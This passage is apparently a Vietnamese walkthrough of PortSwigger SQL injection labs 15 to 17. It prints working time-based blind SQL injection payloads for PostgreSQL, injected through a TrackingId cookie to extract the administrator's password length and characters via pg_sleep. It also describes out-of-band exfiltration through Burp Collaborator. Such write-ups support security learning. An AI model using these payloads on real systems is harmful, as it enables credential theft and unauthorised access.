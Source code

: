 Với các payload có trong cheatseat, mình thử với các payload dễ nhất do nhìn payload của Oracle và Microsoft thì không biết nó đi với cái gì để tạo ra 1 payload hợp lệ.
`Cookie: TrackingId=...'||(SELECT pg_sleep(10))--`


## Lab 15: Blind SQL injection with time delays and information retrieval
Description: Kết quả của các SQL query không được trả về, app không respond bất kỳ sự khác biệt nào dựa trên số row trả về hay bất kỳ lỗi nào. Tuy nhiên, vì query được thực thi đồng bộ nên vẫn có thể trigger tiem delay.
Database có 1 table gọi là `users` với 2 cột `username` và `password`. Lấy password của admin và đăng nhập để pass bài lab.

Đầu tiên, ta check xem database là loại nào. Bài lab này cũng sử dụng PostgreSQL khi mình check thử payload
`TrackingId=LS6RLhn6Dt8Z9cxK'||(SELECT pg_sleep(10))--`

Tiếp theo đó, mình xác định len của password với payload
`LS6RLhn6Dt8Z9cxK'||(SELECT CASE WHEN (LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`
Nếu điều kiện đúng (ở đây length password > 1) thì sẽ delay 10s. Nếu không thì sẽ được respond luôn. Length password vẫn là 20.

Xác định từng kí tự của password với payload 
`LS6RLhn6Dt8Z9cxK'||(SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`

Bài này không biết viết script thế nào nên chạy bằng Burp Suite Pro cho sướng. Hơi cực tí thôi.
![image](https://hackmd.io/_uploads/HJzu_q4hp.png)

## Lab 16: Blind SQL injection with out-of-band interaction
Description: SQL query được thực hiện không đồng bộ và không ảnh hưởng đến app response. Tuy nhiên bạn có thể trigger 1 cái out-of-band interaction với domain bên ngoài. Để pass bài lab, hãy sử SQLi gây ra 1 DNS lookup tới Burp Collaborator.

Tìm 1 payload có trong cheatseet và thử. Thử payload của Oracle và được luôn. Payload kia chỉ là copy vào xong Ctrl + U để URL-encode nên nhìn nó hơi rối.
![image](https://hackmd.io/_uploads/Bk2pccV2a.png)

![image](https://hackmd.io/_uploads/Hk-Jj9N2p.png)


## Lab 17: Blind SQL injection with out-of-band data exfiltration
Description: SQL query được thực hiện không đồng bộ và không ảnh hưởng đến app response. Tuy nhiên bạn có thể trigger 1 cái out-of-band interaction với domain bên ngoài. 
Database có 1 table là `users` với 2 column `username` và `password`. Lấy password của administrator và login để pass bài lab.

Sử dụng payload trong phần cheatseet để exploit. Payload của Oracle.
![image](https://hackmd.io/_uploads/S1Uhhc43T.png)
